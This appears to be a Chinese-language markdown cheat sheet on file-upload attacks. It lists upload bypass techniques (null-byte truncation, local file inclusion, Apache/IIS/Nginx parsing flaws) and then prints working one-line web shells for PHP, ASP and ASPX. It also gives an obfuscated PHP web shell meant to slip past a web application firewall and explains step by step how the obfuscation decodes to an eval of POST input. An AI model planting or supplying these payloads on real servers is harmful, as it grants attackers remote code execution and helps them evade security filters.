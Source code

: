 ```
0x00截断绕过；
本地文件包含漏洞；
Apache解析漏洞；
IIS解析漏洞；
Nginx解析漏洞；
```

### 文件内容检测方式
对文件进行恶意代码注入，再配合解析漏洞。


## 一句话木马
1. php
```php 
<?php @eval($_POST[‘key’]);?>
<?php  $a = "a"."s"."s"."e"."r"."t";$a($_POST[key]);?>
```

2. asp
```
<% eval request(“key”)%>
```
3. aspx
```
<%@ Page Language="Jscript"%><%eval(Request.Item["key"],"unsafe");%>
```

### php过狗一句话
```php
<?php 
  $mt="JF9QT1N"; 
  $ojj="QGV2YWwo";
  $hsa="UWydpMGle";
  $fnx="5BeSleleddKTs=";
  $zk = str_replace("d","","sdtdrd_redpdldadcde");
  $ef = $zk("z", "", "zbazsze64_zdzeczodze");  
  $dva = $zk("p","","pcprpepaptpe_fpupnpcptpipopn");                                           
  $zvm = $dva('', $ef($zk("le", "", $ojj.$mt.$hsa.$fnx))); 
  $zvm(); 
?>
```

分析：

```php
$zk = "str_replace";
$ef = $zk("z", "", "zbazsze64_zdzeczodze"); 
    = str_replace("z", "", "zbazsze64_zdzeczodze") 
    = "base64_decode"
$dva = $zk("p","","pcprpepaptpe_fpupnpcptpipopn"); 
     = str_replace("p","","pcprpepaptpe_fpupnpcptpipopn") 
     = "create_function"
$zvm = $dva('', $ef($zk("le", "", $ojj.$mt.$hsa.$fnx))); 
	 = create_function('', $ef($zk("le", "", $ojj.$mt.$hsa.$fnx))) 
	 = create_function('', base64_decode(str_replace("le", "", $ojj.$mt.$hsa.$fnx))) 
	 = create_function('', base64_decode(str_replace("le", "", QGV2YWwoJF9QT1NUWydpMGle5BeSleleddKTs=)))
     = create_function('', base64_decode("QGV2YWwoJF9QT1NUWydpMG5BeSddKTs="))
     = create_function('', "@eval($_POST['i0nAy']);")
```
